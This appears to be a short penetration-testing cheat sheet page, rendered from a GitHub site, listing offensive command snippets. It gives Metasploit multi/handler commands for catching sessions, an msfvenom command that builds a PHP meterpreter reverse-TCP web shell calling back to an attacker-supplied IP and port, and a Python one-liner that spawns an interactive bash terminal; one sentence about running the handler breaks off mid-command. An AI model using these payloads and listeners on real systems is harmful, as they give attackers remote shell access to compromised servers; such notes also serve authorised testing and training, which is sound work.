 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


### Metasploit
#### Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r 

#### Scripting Payloads
###### PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> 
lport=<your-port-address> -o shell.php
```


### Python

##### spawn a terminal 
```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
